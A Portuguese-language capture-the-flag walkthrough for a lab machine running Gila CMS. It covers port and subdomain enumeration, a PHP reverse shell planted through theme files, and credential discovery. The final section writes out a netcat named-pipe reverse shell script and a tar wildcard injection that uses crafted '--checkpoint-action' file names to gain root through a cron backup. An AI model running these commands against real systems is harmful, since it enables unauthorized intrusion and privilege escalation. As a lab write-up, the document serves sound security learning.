# _**CMesS CTF**_


**Não se esqueca de addicionar o endereço IP para _/etc/hosts_**  

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap [ip_address]
> nmap -p- -sS -T5 [ip_address]
> nmap -p [ports_discovered] -A [ip_address]
> ```


Temos 2 serviços:
* **SSH**
* **WebSite**

Observando o scan com _nmap_, temos um diretório: **robots.txt**  
Ainda, vamos realizar uma varredura de diretórios com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```


Visitando _robots.txt_, temos resultados que já encontramos no scan  
Investigamos a primeira página do site e não encontramos nada  
Encontramos uma página de login  
Acessando, conseguimos identificar o seguinte **CMS**: **Gila CMS**; Ainda não sabemos sua versão  
Temos uma pista do próprio CTF, procurar por subdomínios  
Vamos utilizar o comando abaixo da ferramenta <mark>ffuf</mark> para a busca de subdomínios
> ```bash
> ffuf -w ../seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://cmess.thm -H "Hosts: FUZZ.cmess.thm" -fw 522
> ```


Executamos uma segunda vez com ```-fw 522``` para filtrar por _words_  
E bem que encontramos o subdomínio: **dev**  
Adicionando em _/etc/hosts_ e visitando o subdomínio, temos o seguinte  



Utilizando o e-mail e a senha, conseguimos realizar login como **admin**  
Podemos obter assim, a versão do Gila, bem como alterar arquivos de **/themes**  
Fazendo isso e inserindo um código .PHP para uma _reverse shel_, conseguimos obter acesso a máquina  



## _**Escalando privilégios**_
Tentando encontrar arquivos que podemos escrever pelos comandos abaixo:
* ```find / -perm -u=s -type f 2>/dev/null```
* ```find / -name "*.pub" 2>/dev/null```
* ```find / -writable -type f -name "*.sh" 2>/dev/null```
Não foi obtio nada de útil
Vamos tentar enumerar os arquivos do site
Encontramos **config.php** com informações interessantes



Tentandod login via SSH e até pelo própro computador, não foi possível obter acesso  
Vamos transferir <mark>LinPeas.sh</mark> para a máquina-alvo e tentar por maneiras de escalar privilégios  
Encontramos um arquivo interessante!  



Transferindo para nossa máquina e extraindo, temos uma nota dizendo que tudo aqui (diretório) será extraido  
Uma pista, mas até agora nada  
Continuando como relatório da ferramenta, encontramos outro arquivo interessante  



Tentando ler o arquivo, obtemos a senha de **Andre**  
Vamos tentar realizar login via SSH  
Conseguimos!  



Agora, podemos tentar executar comandos como ```sudo -l``` ou buscar outros meios de escalar privilégios  
Não deu certo  
Vamos executar <mark>LinPeas</mark> novamente  
Lembrando daquele arquivo que extraimos, encontramos algo relacionado a **cron jobs**  



Vamos criar um _script_ dentro do diretório _backup_ para ser executado em conjunto
> ```bash
> cat > /home/andre/backup/rev << EOF
> #!/bin/bash
> rm /tmp/f
> mkfifo /tmp/f
> cat /tmp/f|/bin/sh -i 2>&1|nc [ip_address] [port] >/tmp/f
> EOF
> ```

Em seguida, vamos criar _checkpoints_ para o **tar** executar quano cria o backup  
> ```bash
> echo "" > "/home/andre/backup/--checkpoint=1"
> echo "" > "/home/andre/backup/--checkpoint-action=exec=sh rev"
> ```


Agora, ir atrás das flags!
